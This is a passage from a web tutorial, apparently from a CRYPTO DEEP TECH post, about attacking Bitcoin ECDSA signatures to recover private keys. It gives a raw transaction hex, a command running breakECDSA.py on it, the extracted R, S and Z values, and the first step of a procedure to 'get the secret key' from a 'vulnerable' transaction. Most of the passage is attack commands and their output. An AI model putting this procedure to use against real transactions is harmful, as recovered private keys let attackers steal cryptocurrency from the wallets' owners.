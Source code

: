 

<pre class="wp-block-code"><code>RawTX = 01000000014398fe319f52d6b4cece666cb591ea22d1ea47dacd5df746e3aa588e5426a43c0d0000006b483045022100dd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc802206a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e4210301210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff0176020000000000001976a914212ae2b75df27ce3dfd0350335bc590d29d43bb188ac00000000
</code></pre>



<h2>Now we need to get all R, S, Z values ​​from all vulnerable transactions</h2>



<p>Let’s use the breakECDSA.py script</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 01000000014398fe319f52d6b4cece666cb591ea22d1ea47dacd5df746e3aa588e5426a43c0d0000006b483045022100dd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc802206a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e4210301210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff0176020000000000001976a914212ae2b75df27ce3dfd0350335bc590d29d43bb188ac00000000
</code></pre>



<figure class="wp-block-image"><img decoding="async" src="./We implement WhiteBox Attack on Bitcoin with differential errors according to the research scheme of Eli Biham and Adi Shamir to extract the secret key - CRYPTO DEEP TECH_files/image-36-1024x303.png" alt="We implement WhiteBox Attack on Bitcoin with differential errors according to the research scheme of Eli Biham and Adi Shamir to extract the secret key" class="wp-image-1626"></figure>



<pre class="wp-block-code"><code>R = 0xdd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc8
S = 0x6a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e42103
Z = 0xe3836edb5789a3be19cb8b0c9bc8cb1ae2fd58c30d745ae34ceac35c20c0c21c</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<p>To get the secret key from a vulnerable ECDSA signing transaction, let’s add the data&nbsp;<code>RawTX</code>to a text document and save it as a file<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>01000000014398fe319f52d6b4cece666cb591ea22d1ea47dacd5df746e3aa588e5426a43c0d0000006b483045022100dd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc802206a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e4210301210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff0176020000000000001976a914212ae2b75df27ce3dfd0350335bc590d29d43bb188ac00000000</code></pre>
